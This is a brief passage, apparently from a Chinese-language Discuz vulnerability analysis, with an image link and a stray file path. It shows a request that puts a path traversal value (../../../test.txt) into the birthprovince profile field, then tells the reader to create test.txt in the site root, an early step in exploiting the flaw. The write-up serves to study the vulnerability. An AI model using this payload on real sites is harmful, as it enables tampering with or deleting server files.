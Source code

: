 ```
birthprovince=../../../test.txt
&profilesubmit=1
&formhash=63b23997
```

就可以看到出生年月被改成了自定义的字符

![](Discuz漏洞分析\6.png)

先在首页创建一个test.txt
